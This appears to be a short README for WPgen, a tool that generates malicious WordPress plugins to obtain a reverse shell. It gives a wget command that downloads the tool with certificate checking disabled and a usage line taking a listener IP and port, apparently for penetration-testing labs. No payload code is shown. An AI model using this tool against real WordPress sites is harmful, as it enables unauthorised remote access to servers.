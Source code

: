 # **WPgen**

#### **WPgen** is an automatic malicious plugin generator for **WordPress**, get a reverse shell in a simple and fast way.

![](/img/screenshot.png)

---

## Download

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/WPgen/WPgen" && chmod +x WPgen
```

## Usage

```sh
WPgen -l 192.168.1.X -p 443
```

![](/img/usage.png)

---

